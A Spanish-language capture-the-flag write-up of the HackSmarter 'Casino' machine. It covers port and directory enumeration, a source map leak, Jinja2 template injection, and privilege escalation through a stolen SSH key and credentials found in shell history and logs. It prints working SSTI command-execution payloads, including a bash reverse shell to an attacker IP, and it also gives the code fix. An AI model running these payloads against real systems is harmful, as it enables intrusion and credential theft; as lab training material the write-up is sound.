


---

# Writeup: Casino (HackSmarter — Medium)

Casino es una máquina **Media** que simula un portal cautivo de WiFi vulnerable. El recorrido comienza con la enumeración de puertos que revela un servidor web con un portal de autenticación. Al analizar el código fuente, se descubre un archivo JavaScript minificado con su *source map*, lo que expone una API que devuelve información de huéspedes (nombres y números de habitación). Con estos datos, se accede al dashboard como un huésped legítimo. Desde el perfil del usuario, se identifica una vulnerabilidad de **Server-Side Template Injection (SSTI)** en el campo `display_name`, que permite ejecución remota de comandos. Esto otorga acceso a un contenedor como `www-data`. Una vez dentro, se encuentra una clave SSH privada que permite conectarse como `george` en el puerto 2222. El historial de comandos de `george` revela la contraseña del usuario `david`, y en los logs del sistema se encuentra una credencial hardcodeada de `root`, permitiendo la escalada final.

---

## 🎯 Objetivo

El objetivo de esta máquina es realizar una prueba de penetración contra un resort de lujo que albergará una conferencia de ciberseguridad. Se proporciona la IP del portal cautivo de WiFi, sin más información. La tarea consiste en identificar todas las vulnerabilidades y elevar los privilegios a `root` para demostrar el impacto del compromiso.

---

## Fase 1: Reconocimiento

### Escaneo de puertos

Realizamos un escaneo completo de puertos con Nmap para descubrir los servicios accesibles:

```bash
sudo nmap -sS -p- --min-rate 500 -vv -Pn -n 10.1.32.129 -oG allPorts
```

**Resultado:**

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2222/tcp open  ssh
```

**Explicación de parámetros:**

- `-sS`: Escaneo SYN (sigiloso), rápido y sin completar la conexión TCP.
- `-p-`: Escanea todos los 65535 puertos.
- `--min-rate 500`: Fuerza a Nmap a enviar al menos 500 paquetes por segundo.
- `-vv`: Verbosidad aumentada para ver progreso en tiempo real.
- `-Pn`: Omite la fase de descubrimiento de hosts (asume que la máquina está activa).
- `-n`: Omite la resolución DNS para evitar demoras.
- `-oG allPorts`: Guarda los resultados en formato "grepable".

El escaneo revela tres puertos abiertos: **22 (SSH)**, **80 (HTTP)** y **2222 (SSH)**.

### Enumeración de servicios

Realizamos un escaneo de servicios y versiones para obtener más información:

```bash
nmap -sVC -p 22,80,2222 10.1.32.129 -oN targeted
```

**Resultados clave:**

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.18
80/tcp   open  http    Werkzeug httpd 3.1.8 (Python 3.10.18)
|_http-title: Hack Smarter World - Guest WiFi & Portal
|_http-server-header: Werkzeug/3.1.8 Python/3.10.18
2222/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u7
```

**Observaciones clave:**

- **Puerto 80**: Servidor web con **Werkzeug** (framework WSGI de Python) y título "Hack Smarter World - Guest WiFi & Portal".
- **Puerto 22**: SSH en Ubuntu.
- **Puerto 2222**: SSH en Debian (posiblemente otro contenedor o servicio interno).

---

## Fase 2: Enumeración del sitio web

### 2.1 Exploración del portal

Accediendo a `http://10.1.32.129`, nos encontramos con un portal cautivo de WiFi que solicita número de habitación y apellido del huésped.



### 2.2 Fuzzing de directorios

Realizamos un fuzzing de directorios para descubrir rutas ocultas:

```bash
ffuf -u http://10.1.32.129/FUZZ -w /usr/share/wordlists/dirb/big.txt
```

**Resultado:**

```
dashboard               [Status: 302]
login                   [Status: 200]
logout                  [Status: 302]
profile                 [Status: 302]
```

Los directorios `/dashboard` y `/profile` requieren autenticación (redirigen con código 302).

### 2.3 Análisis del código fuente

Al inspeccionar el código fuente de la página de login (`view-source`), encontramos la inclusión de un archivo JavaScript:

```html
<script src="/static/js/app.min.js"></script>
```

Decidimos descargar y analizar este archivo:

```bash
curl http://10.1.32.129/static/js/app.min.js
```

```javascript
function initPortal(){console.log("Hack Smarter World WiFi Gateway Active");}document.addEventListener("DOMContentLoaded",initPortal);
//# sourceMappingURL=app.min.js.map
```

El archivo contiene un comentario `//# sourceMappingURL=app.min.js.map`. Esto indica la existencia de un **Source Map**.

---

## Fase 3: Filtración de información mediante Source Map

### 3.1 ¿Qué es un Source Map?

Un archivo `.js.map` (Source Map) es un archivo de depuración generado por herramientas de desarrollo (como Webpack, Vite o TypeScript) que permite mapear el código JavaScript minificado y optimizado de vuelta al código fuente original. Esto facilita la depuración en el navegador, pero si se expone en producción, puede filtrar el código fuente completo de la aplicación.

**Riesgo de seguridad:** Un atacante puede descargar el Source Map y reconstruir el código original, lo que puede revelar lógica de negocio, rutas de API, credenciales hardcodeadas o información sensible.

### 3.2 Descarga del Source Map

```bash
curl http://10.1.32.129/static/js/app.min.js.map
```

**Contenido:**

```json
{
    "version": 3,
    "file": "app.min.js",
    "sources": ["src/api/roomVerification.js"],
    "sourcesContent": [
        "// Front-Desk Kiosk API verification helper\nasync function checkRoomStatus(roomNum) {\n const res = await fetch('/api/v1/rooms/status?status=occupied');\n return await res.json();\n}"
    ]
}
```

**Hallazgo crítico:** El Source Map revela que la aplicación realiza llamadas a la API `/api/v1/rooms/status?status=occupied`. El código fuente original también está expuesto en el campo `sourcesContent`.

### 3.3 Acceso a la API filtrada

Probamos la API descubierta:

```bash
curl -s 'http://10.1.32.129/api/v1/rooms/status?status=occupied' | jq
```

**Resultado:**

```json
{
  "filter": "occupied",
  "rooms": [
    {
      "checkout": "2026-08-11",
      "guest_name": "Smith",
      "id": 1,
      "room_number": 105,
      "status": "occupied",
      "tier": "Standard Guest"
    },
    {
      "checkout": "2026-08-23",
      "guest_name": "Johnson",
      "id": 2,
      "room_number": 107,
      "status": "occupied",
      "tier": "Executive Suite"
    },
    // ... más huéspedes
  ]
}
```

**Hallazgo:** La API devuelve información detallada de los huéspedes que están ocupando habitaciones, incluyendo nombres (`guest_name`) y números de habitación (`room_number`). Esta información puede ser utilizada para acceder al dashboard de un huésped legítimo.

---

## Fase 4: Acceso al dashboard como huésped

Con los datos obtenidos de la API, elegimos un huésped, por ejemplo "Johnson" de la habitación 107. Ingresamos estos datos en el formulario de login del portal.



Accedemos exitosamente al dashboard del huésped. El panel muestra información del perfil, incluyendo la posibilidad de cambiar el nombre de usuario.

---

## Fase 5: Server-Side Template Injection (SSTI) — Explotación

### 5.1 Identificación de la vulnerabilidad

En la página de perfil (`/profile`), el huésped puede cambiar su nombre de usuario. Al modificar el nombre, este se refleja en el saludo "Welcome Back, [nombre]!" en el dashboard.

Probamos a inyectar una expresión simple de Jinja2 en el campo `display_name`:

```bash
display_name={{7*7}}
```

**Resultado:**

El saludo cambia a "Welcome Back, 49!", confirmando que la plantilla está evaluando la expresión. Esto indica una vulnerabilidad de **Server-Side Template Injection (SSTI)**.

### 5.2 ¿Qué es SSTI?

La **Server-Side Template Injection** es una vulnerabilidad que ocurre cuando una aplicación web inserta entrada del usuario directamente en una plantilla de motor de renderizado (como Jinja2, Twig, Freemarker, etc.) sin sanitizarla adecuadamente. El atacante puede inyectar código de plantilla malicioso que será ejecutado en el servidor, lo que puede llevar a ejecución remota de comandos, lectura de archivos y escalada de privilegios.

### 5.3 Ejecución remota de comandos

Con la vulnerabilidad confirmada, probamos a ejecutar comandos del sistema:

```bash
display_name={{ lipsum.__globals__.os.popen('id').read() }}
```

**Resultado:**

```
Welcome Back, uid=33(www-data) gid=33(www-data) groups=33(www-data)!
```

El comando `id` se ejecuta y muestra la salida en el saludo. Estamos ejecutando comandos como el usuario `www-data`.

### 5.4 Reverse Shell

Enviamos un payload para obtener una reverse shell:

```bash
display_name={{+lipsum.__globals__.os.popen('bash+-c+"bash+-i+>%26+/dev/tcp/10.200.82.133/443+0>%261"+%26').read()+}}
```

**Explicación del payload:** El comando se codifica para evitar problemas con caracteres especiales en la URL o el formulario. Utiliza `+` para separar palabras y `%26` para el carácter `&`.

En nuestra máquina Kali, iniciamos un listener:

```bash
nc -nlvp 443
```

Recibimos la conexión:

```bash
connect to [10.200.82.133] from (UNKNOWN) [10.1.32.129] 51626
bash: cannot set terminal process group (66): Inappropriate ioctl for device
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
www-data@c20b73701050:/app/app$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Somos el usuario `www-data` dentro de un contenedor Docker (el hostname `c20b73701050` sugiere un ID de contenedor).

---

## Fase 6: Análisis del código fuente vulnerable desde el contenedor

### 6.1 Localización del código fuente

Ahora que tenemos acceso al contenedor, podemos explorar el sistema de archivos y localizar el código fuente de la aplicación para entender por qué funcionó la inyección.

```bash
www-data@c20b73701050:/app/app$ ls
app.py  requirements.txt  static  templates
```

### 6.2 Análisis de `app.py`

```bash
www-data@c20b73701050:/app/app$ cat app.py
```

**Código vulnerable:**

```python
@app.route("/profile", methods=["GET", "POST"])
def profile():
    if "guest" not in session:
        return redirect(url_for("login"))

    if request.method == "POST":
        new_name = request.form.get("display_name", "").strip()
        if new_name:
            session["display_name"] = new_name
            flash("Guest profile preferences updated successfully!", "success")

    display_name = session.get("display_name", session["guest"]["first_name"])

    dynamic_template = f"""
    
    
    <div class="container py-4">
        <div class="card shadow-lg border-0 rounded-3 mb-4">
            <div class="card-header bg-primary text-white p-4">
                <h3 class="mb-0"><i class="bi bi-person-gear me-2"></i>Guest Account & WiFi Preferences</h3>
            </div>
            <div class="card-body p-4">
                <div class="alert alert-info border-0 shadow-sm mb-4">
                    <h5 class="alert-heading fw-bold"><i class="bi bi-info-circle me-2"></i>Welcome Back, {display_name}!</h5>
                    <p class="mb-0">Your high-speed network profile is currently active across all resort zones.</p>
                </div>

                <form method="POST" action="/profile" class="mt-4">
                    <div class="mb-3">
                        <label for="display_name" class="form-label fw-bold">Preferred Display Name / Nickname</label>
                        <input type="text" class="form-control form-control-lg" id="display_name" name="display_name" value="{display_name}" required>
                        <div class="form-text">This greeting appears on your dashboard, device connection logs, and smart room controls.</div>
                    </div>

                    <button type="submit" class="btn btn-primary btn-lg"><i class="bi bi-save me-2"></i>Save Preferences</button>
                    <a href="/dashboard" class="btn btn-outline-secondary btn-lg ms-2">Back to Dashboard</a>
                </form>
            </div>
        </div>
    </div>
    
    """
    return render_template_string(dynamic_template)
```

### 6.3 Explicación técnica de la vulnerabilidad

El problema radica en dos decisiones de diseño del programador:

1. **Uso de f-strings de Python:** El programador usa una cadena formateada (`f"""..."""`) para construir el HTML, insertando directamente el valor de `display_name` en el texto de la plantilla. En Python, las f-strings evalúan e interpolan el contenido de las variables al momento de la ejecución.

2. **Uso de `render_template_string`:** Luego, el programador toma ese texto ya rellenado y se lo pasa a Jinja2 para que lo renderice mediante `render_template_string(dynamic_template)`.

**¿Qué pasa cuando el atacante envía `{{7*7}}` en el campo `display_name`?**

1. La variable `display_name` toma el valor de la cadena `'{{7*7}}'`.
2. La f-string de Python pega ese valor en el texto. El texto queda así: `... Welcome Back, {{7*7}}! ...`
3. Flask le entrega este texto a Jinja2.
4. Jinja2 ve `{{7*7}}` y lo interpreta como código de su lenguaje de plantillas, ejecutándolo.
5. Jinja2 evalúa la operación matemática y devuelve `49` en la página web.

Al usar `{{ lipsum.__globals__.os.popen('id').read() }}`, el proceso es el mismo: la f-string lo pega en el HTML, y luego Jinja2 lo interpreta como código Python válido (accediendo al objeto `lipsum` para obtener el módulo `os` y ejecutar comandos del sistema) y lo ejecuta.

**La falla clave:** La combinación de f-string (que evalúa el contenido) y `render_template_string` (que vuelve a evaluar la plantilla) crea una **doble evaluación** que permite la inyección de código de plantilla malicioso.

**¿Cómo se habría arreglado esto en un entorno real?**

El programador jamás debió usar f-strings para construir plantillas dinámicas. La forma correcta y segura de hacer esto en Flask es pasar la variable como **contexto** a la plantilla, para que Jinja2 la trate como texto plano y no la evalúe:

```python
# La plantilla se escribe SIN f-string, dejando los placeholders de Jinja2
template = """


...
Welcome Back, {{ display_name }}!
...

"""

# Aquí está la forma segura: pasando la variable al contexto
return render_template_string(template, display_name=display_name)
```

Si se hubiera hecho así, aunque el atacante enviara `{{7*7}}`, Jinja2 lo habría escapado y la web habría mostrado el texto literal: `Welcome Back, {{7*7}}!`.

---

## Fase 7: Enumeración local y escalada a `george`

### 7.1 Enumeración del contenedor

Exploramos el sistema de archivos y encontramos directorios de usuarios:

```bash
www-data@c20b73701050:/app/app$ ls /home/
david  george
```

En el directorio de `george`, encontramos una clave SSH privada y la flag de usuario:

```bash
www-data@c20b73701050:/app/app$ ls -la /home/george/.ssh/
total 12
drwxr-xr-x 2 george george 4096 Aug 17 22:37 .
drwxr-xr-x 3 george george 4096 Aug 17 22:37 ..
-rw------- 1 george george 1675 Aug 17 22:37 id_rsa
-rw-r--r-- 1 george george  398 Aug 17 22:37 id_rsa.pub
```

Copiamos la clave privada `id_rsa` a nuestra máquina Kali.

### 7.2 Conexión SSH como `george`

Recordamos que el puerto 2222 tiene un servicio SSH. Usamos la clave para conectarnos:

```bash
chmod 600 id_rsa
ssh -i id_rsa -p 2222 george@10.1.32.129
```

```bash
george@c20b73701050:~$ id
uid=1000(george) gid=1000(george) groups=1000(george)
george@c20b73701050:~$ cat user.txt
[REDACTED]
```

Obtenemos la **flag de usuario**.

---

## Fase 8: Escalada a `david`

### 8.1 Análisis del historial de comandos

Revisamos el archivo `.bash_history` de `george` para encontrar información útil:

```bash
george@c20b73701050:~$ cat .bash_history
```

**Contenido relevante:**

```
su david
DavidPass2026!#
mysql -u david -p'DavidPass2026!#' -h 127.0.0.1 resort_db
```

**Hallazgo:** La contraseña del usuario `david` es `[REDACTED]`.

### 8.2 Cambio de usuario

```bash
george@c20b73701050:~$ su david
Password: [REDACTED]
david@c20b73701050:/home/george$ id
uid=1001(david) gid=1001(david) groups=1001(david),4(adm)
```

Ahora somos el usuario `david`, que pertenece al grupo `adm` (permite leer logs del sistema).

---

## Fase 9: Escalada a `root`

### 9.1 Búsqueda de credenciales en logs

Como `david` tiene permisos de lectura sobre logs del sistema (`group=4(adm)`), buscamos contraseñas en los archivos de log:

```bash
david@c20b73701050:/home/george$ grep -ri 'pass' /var/log/ 2>/dev/null
david@c20b73701050:/home/george$ grep -ri 'cred' /var/log/ 2>/dev/null
```

**Resultado crítico:**

```
/var/log/provisioning.log:2026-08-01 03:14:31 [DEBUG] Saved system root sync credential: [REDACTED]
```

Encontramos una credencial hardcodeada de root en el log de aprovisionamiento del sistema.

### 9.2 Cambio a root

```bash
david@c20b73701050:/home/george$ su root
Password: [REDACTED]
root@c20b73701050:/home/george# id
uid=0(root) gid=0(root) groups=0(root)
root@c20b73701050:/home/george# cat /root/root.txt
[REDACTED]
```

Obtenemos la **flag de root**.

---

## 📌 Conclusión

Casino es una máquina **Media** que combina:

1. **Enumeración de puertos** y descubrimiento de servicios (HTTP y SSH en dos puertos).
2. **Fuzzing de directorios** y análisis del código fuente.
3. **Filtración de información mediante Source Map** de un archivo JavaScript, exponiendo una API interna.
4. **Enumeración de la API** para obtener información de huéspedes (nombres y habitaciones).
5. **Acceso al dashboard** como un huésped legítimo.
6. **Server-Side Template Injection (SSTI)** en el campo `display_name`, permitiendo ejecución remota de comandos.
7. **Reverse shell** y acceso al contenedor como `www-data`.
8. **Análisis del código fuente** (`app.py`) desde el contenedor para comprender la vulnerabilidad SSTI.
9. **Extracción de una clave SSH** del directorio de `george`.
10. **Acceso SSH como `george`** en el puerto 2222.
11. **Análisis del historial de comandos** para obtener la contraseña de `david`.
12. **Búsqueda en logs** para encontrar una credencial hardcodeada de `root`.
13. **Escalada a root** y obtención de la flag final.

---

## 📚 Lecciones aprendidas

1. **Los Source Maps no deben exponerse en producción**  
   El archivo `.js.map` expuso el código fuente original de la aplicación, incluyendo rutas de API. Los Source Maps deben deshabilitarse en entornos de producción o servirse únicamente a través de herramientas de monitoreo de errores (como Sentry) con autenticación.

2. **Las API que devuelven información sensible deben estar autenticadas y autorizadas**  
   El endpoint `/api/v1/rooms/status` devolvía información de huéspedes sin autenticación. Los endpoints deben validar que el usuario tenga permisos para acceder a los datos.

3. **La combinación de f-strings y `render_template_string` en Flask es peligrosa**  
   El uso de f-strings para construir plantillas y luego pasarlas a `render_template_string` permite inyección de código. Las plantillas deben ser estáticas y los datos deben pasarse como contexto a Jinja2 de forma segura.

4. **Las credenciales no deben almacenarse en texto plano en logs**  
   La contraseña de root estaba hardcodeada en un log de aprovisionamiento. Los logs no deben contener información sensible. Si es necesario registrar eventos de aprovisionamiento, las credenciales deben ser efímeras y rotarse después del uso.

5. **El historial de comandos (`bash_history`) puede contener secretos**  
   `george` había ejecutado `su david` con la contraseña en texto plano, lo que permitió la escalada. Los usuarios deben ser educados para no escribir contraseñas en comandos interactivos.

6. **El principio de mínimo privilegio debe aplicarse a todos los niveles**  
   `david` pertenecía al grupo `adm`, lo que permitió leer logs sensibles. Los permisos deben ser lo más restrictivos posible.

7. **La enumeración sistemática es clave**  
   Cada paso del ataque se basó en información obtenida en fases anteriores. La persistencia en la enumeración de archivos, directorios y logs fue fundamental para la escalada.

---
